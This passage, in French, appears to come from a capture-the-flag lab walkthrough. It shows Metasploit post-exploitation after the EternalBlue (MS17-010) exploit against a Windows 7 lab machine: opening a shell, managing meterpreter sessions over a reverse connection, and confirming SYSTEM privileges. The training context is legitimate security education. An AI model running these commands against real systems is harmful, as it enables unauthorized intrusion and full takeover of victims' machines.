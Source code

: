 Félicitations, vous avez pénétré la machine cible :raised_hands:

Lancer un shell windows :
```console
meterpreter > shell
Process 2184 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

Ctrl-C pour sortir.

Revenir en background sur MSF et explorer les sessions en cours :
```
meterpreter > background (ou Ctrl-Z) 
[*] Backgrounding session 1...
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.8.237.162:4444 -> 10.10.214.31:49199 (10.10.214.31)
```

Retourner sur la session :
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions 1
```

Basculer à nouveau sur le shell et vérifier que l'attaque d'escalation a réussi :
```
meterpreter > shell
Process 2768 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

CTrl-C
```

Confirmer avec le meterpreter :

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
